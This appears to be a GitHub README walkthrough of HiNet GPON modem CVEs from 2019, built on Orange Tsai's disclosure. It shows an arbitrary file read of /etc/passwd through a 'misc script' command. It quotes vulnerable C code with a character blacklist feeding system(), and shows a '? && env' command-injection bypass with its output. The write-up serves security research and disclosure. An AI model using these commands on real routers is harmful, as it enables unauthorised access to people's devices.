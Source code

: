 ## Covering HiNet GPON RCE from Orange Tsai
List of CVE :
* CVE-2019-13411
* CVE-2019-13412
* CVE-2019-15064
* CVE-2019-15065
* CVE-2019-15066

Btw orange just disclose the technique/walkthrough on CVE-2019-15065, CVE-2019-13411 and CVE-2019-13412!<br>
Rest of them i will try to explain with my little experience.<br>

### CVE-2019-15065 & CVE-2019-13412 (Arbitrary Read Files)
So basically there's a feature for execute shell script through files inside gpon machine. However if<br>
__the file is not__ a normal shell script, it will output the content with STDERR.
```bash
xxxx:xxx:xxx> misc script /etc/passwd
passwd> root:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> support:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> admin:x:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> user:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> ftp:*:95:95::/var/ftp:
Invalid command.
passwd> nobody:x:506:507:::
Invalid command.
passwd> sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
Invalid command.
xxxx:xxx:xxx> 
```

### HiNET GPON on port 3097
Like other modem/router device, there's shortcut command for spawn help menu/list with command "?".<br>
This is snippet line of code that provide function for command "?" :
```c
  char * BLACKLISTS = "|<>(){}`;" ;                     // <--- blacklist char prevent command injection
  char *input = util_trim(s1);                          // <--- our input
  if (input[0] == '\0' || input[0] == '#')          
      return 0;

  while (SUB_COMMAND_LIST[i] != 0) {
      sub_cmd = SUB_COMMAND_LIST[i++];
      if (strncmp(input, sub_cmd, strlen(sub_cmd)) == 0)
          break;
  }
  
  if (SUB_COMMAND_LIST[i] == 0 && strchr(input, '?') == 0)
      return -10;
      
  // ...<snip>...
  
  while (BLACKLISTS[i] != 0) {
      if (strchr(input, BLACKLISTS[i]) != 0) {
          util_fdprintf(fd, "invalid char '%c' in command\n", BLACKLISTS[i]);   // prompt if blacklist char exist!
          return -1;
      }
      i++;
  }
  
  snprintf(file_buf,  64, "/tmp/tmpfile.%d.%06ld", getpid(), random() % 1000000);
  snprintf(cmd_buf, 1024, "/usr/bin/diag %s > %s 2>/dev/null", input, file_buf);
  system(cmd_buf);
```
As you can see, our input after "?" got parsed if contains blacklist char. To bypass it we can use char "&" :p<br>
![alt text](https://devco.re/assets/img/blog/20191111/7.png "Bypass with &")
```bash
xxxx:xxx:xxx> ? && env       # bypass parser :v
active=1
SHLVL=8
HOME=/
OLDPWD=/
TERM=vt102
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/etc/init.d:/etc/bin
SHELL=/bin/sh
PWD=/tmp
```

### HiNET GPON on port 6998
<pre>p0c not free, just kidding :p</pre>
<br>

##### Credits & Thx for :
* [@OrangeTsai](https://devco.re/blog/2019/11/11/HiNet-GPON-Modem-RCE/)
